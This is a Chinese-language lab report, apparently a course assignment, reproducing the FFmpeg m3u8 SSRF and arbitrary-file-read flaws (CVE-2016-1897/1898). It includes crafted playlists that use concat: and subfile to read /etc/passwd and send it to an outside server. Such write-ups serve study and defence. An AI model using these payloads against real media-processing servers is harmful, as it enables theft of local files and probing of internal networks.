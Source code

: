 # Final

* 方案1: 复现近2年CNVD高危/严重的Web漏洞，并撰写实验报告;
  * [可选漏洞复现列表](doc/list.pdf)

* 方案2: 在合法的SRC通过一个中危以上的Web漏洞，并撰写实验报告;

* 方案3: 撰写一个近半年出现的Web相关的高危严重漏洞的小论文。

## 漏洞复现

* ffmpeg 任意文件读取漏洞/SSRF漏洞 （CVE-2016-1897/CVE-2016-1898）

## 漏洞概述

FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

在FFMpeg2.X 由于在解析HTTP Live Streaming流媒体m3u8文件处理不当，可导致SSRF漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用FFMpeg进行处理时会触发该漏洞。

这个漏洞有两个CVE编号，分别是CVE-2016-1897和CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897只能读取文件的第一行，而CVE-2016-1898可以读取文件任意行，原理基本一样。

## 漏洞原理

由于漏洞是出现在解析HLS流媒体文件出的问题，所以我们必须先了解HLS。

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

```log
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
```

如上所示，有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

这是youku一个视频的m3u8文件，内容如下：

```log
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
```

解析：

* #EXTM3U 标签是m3u8的文件头，开头必须要这一行
* #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
* #EXT-X-VERSION:2 该标签可有可无
* #EXTINF:6, 表示该一段TS流文件的长度
* #EXT-X-ENDLIST 这个相当于文件结束符

这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。

## 漏洞分析

SSRF漏洞：

直接用FFMpeg解析一个多媒体文件

```log
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://192.168.123.100:8080/1.html
#EXT-X-ENDLIST
```
> #EXT-X-MEDIA-SEQUENCE或#EXT-X-TARGETDURATION必须存在任意一个，前者是定义ts流文件的序号。去掉会报错：无效文件

* ffmpeg -i test.m3u8 test.mp4（也可把m3u8格式改成其他后缀，ffmpeg会自动识别为HLS流文件）

直接发起了http请求，这就造成一个SSRF。

结合SSRF任意文件读取：

FFMpeg支持很多扩展协议，其中的concat:协议可以合并多个流URL，官方称为Physical concatenation protocol

这样可以合并多个URL ```concat:URL1|URL2|...|URLN```

新建一个主HLS文件h.m3u8在web服务器

```log
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://xxx/test.txt|http://xxx/test.txt （这两个txt都是m3u8,后缀可以随便改，ffmpeg会自动识别）
#EXT-X-ENDLIST
```

再创建一个下级的m3u8文件 test.txt，最终的请求会引到最下级的m3u8文件,也就是这个test.txt

```log
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://xxx.com/?
```

再用ffmpeg处理test.m3u8

```log
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://xxx/h.m3u8
#EXT-X-ENDLIST
```

提示当读取第一段的时候出错，URL是```http://xxx/?#EXTM3U```，但我们建立的那个下级的m3u8文件**test.txt**是```http://xxx.com/?```，多出来的“#EXTM3U，”这部分是用concat协议合并的那个txt，```http://xxx/test.txt```的第一行；而ffmpeg支持多种协议获取输入流，http、ftp、smb、file等，既然用concat协议可以读取文件的第一行，那把http换成file协议就可以读取本地文件了，漏洞就出在这里。

主m3u8文件改成```concat:http://xxx/test.txt|file:///etc/passwd```，再请求就能读取到passwd文件的第一行，当然也可以读取内网网站的信息。

但这样就只能读取一行，意义不大。但FFMpeg支持一个截取数据流片段的功能：subfile。用法：```subfile,,start,153391104,end,268142592,,:/media/dvd/VIDEO_TS/VTS_08_1.VOB```

Start后是开始截取的偏移量，以字节为单位，end是结束的偏移量。

既然可以截取数据流就可以利用subfile获取比较完整的文件了。测试时候一次最多只能截取32字节，所以要继续用concat合并多个数据流片段。

```log
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://198.56.193.29:8080/test.txt|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST
```

这样就可以读取任意文件的任意内容。
